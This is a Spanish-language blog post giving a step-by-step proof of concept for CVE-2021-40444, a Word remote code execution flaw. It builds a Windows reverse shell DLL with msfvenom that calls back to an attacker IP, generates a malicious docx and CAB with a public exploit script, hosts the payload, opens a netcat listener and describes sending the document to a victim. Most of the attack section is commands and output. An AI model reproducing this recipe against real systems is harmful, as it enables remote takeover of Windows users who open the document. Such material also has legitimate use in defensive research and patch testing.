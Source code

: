 ```yaml
---
layout: single
title: POC CVE-2021-40444
excerpt: "Buenas hoy os traigo un POC del reciente exploit CVE-2021-40444, como vamos a ver podemos ejecutar comandos en un sistema windows remoto a traves de la creacion de un archivo Word malicioso"
date: 2021-09-18
classes: wide
header:
  teaser: /assets/images/POC-CVE-2021-40444/logo.jpg
  teaser_home_page: true
  icon: 
categories:
  - POC CVE
  - infosec
tags:
  -   CVE
  -   Video
---
```


# POC CVE-2021-40444

Hoy voy a enseñaros paso a paso como realizar este ataque, es una vulnerabilidad que ha salido hace muy poco, y básicamente lo que vamos a explotar es un fallo en Word Office, abriendo un documento malicioso vamos a ganar acceso al sistema fácilmente, actualmente el Windows Defender lo detecta, pero seguro que os gusta.

Para ello vamos a necesitar un sistema operativo de atacante (en mi caso Kali Linux) y un sistema operativo que queremos vulnerar (Windows 10), tendréis que instalar el Word Office para que funcione.

## 1º Paso

Nos descargaremos el contenido de este repositorio: [link](https://github.com/lockedbyte/CVE-2021-40444) 

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444 master
❯ ls
 data   out   test             exploit.py     POC.mp4     REPRODUCE.md
 img    srv   deobfuscate.py   patch_cab.py   README.md
```

## 2º Paso

Vamos a borrar el archivo creado en test → calc.dll

Este repositorio lo que explota es ejecutar un comando en el sistema, en este caso abre una calculadora en el sistema a vulnerar, pero nosotros queremos ganar acceso.

Así que vamos a construirnos nuestra propia reverse shell con `msfvenom`

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f dll > calc.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 8704 bytes
```

Le damos permisos Full 

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ chmod 777 calc.dll
                                                                                            

root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ ls -la
drwxr-xr-x root root 4.0 KB Sat Sep 18 11:20:29 2021  .
drwxr-xr-x root root 4.0 KB Sat Sep 18 11:18:21 2021  ..
.rwxrwxrwx root root 8.5 KB Sat Sep 18 11:20:34 2021  calc.dll
```

Ejecutamos el exploit de esta forma:

```bash
❯ python3 exploit.py generate test/calc.dll http://192.168.234.130
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is generate a malicious payload...

[ == Options == ]
        [ DLL Payload: test/calc.dll
        [ HTML Exploit URL: http://192.168.234.130

[*] Writing HTML Server URL...
[*] Generating malicious docx file...
  adding: [Content_Types].xml (deflated 75%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 61%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 48%)
  adding: docProps/core.xml (deflated 50%)
  adding: word/ (stored 0%)
  adding: word/webSettings.xml (deflated 57%)
  adding: word/settings.xml (deflated 63%)
  adding: word/_rels/ (stored 0%)
  adding: word/_rels/document.xml.rels (deflated 75%)
  adding: word/fontTable.xml (deflated 74%)
  adding: word/styles.xml (deflated 89%)
  adding: word/document.xml (deflated 85%)
  adding: word/theme/ (stored 0%)
  adding: word/theme/theme1.xml (deflated 79%)
[*] Generating malicious CAB file...
[*] Updating information on HTML exploit...
[+] Malicious Word Document payload generated at: out/document.docx
[+] Malicious CAB file generated at: srv/word.cab
[i] You can execute now the server and then send document.docx to target
```

Ya tenemos creado nuestro documento word con nuestro codigo malicioso

## 4º Paso

Ejecutamos el exploit de nuevo de esta forma para compartirnos un servicio web con python:

```bash
❯ python3 exploit.py host 80                                   
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is host HTML Exploit...
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y tambien nos ponemos en escucha:

`rlwrap nc -nlvp 443`

```bash
root@kali /home/kali/Desktop/POC
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

## 5º Paso

Pasamos el documento word que se ha creado en /out

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/out master*
❯ ls
 0-blank   document.docx
```


<iframe width="350" height="220" src="https://www.youtube-nocookie.com/embed/x39Lc2l97Ao" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


Abrimos el documento Word y BOOM! :)

<iframe width="350" height="220" src="https://www.youtube-nocookie.com/embed/F--Fva4UyLc" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

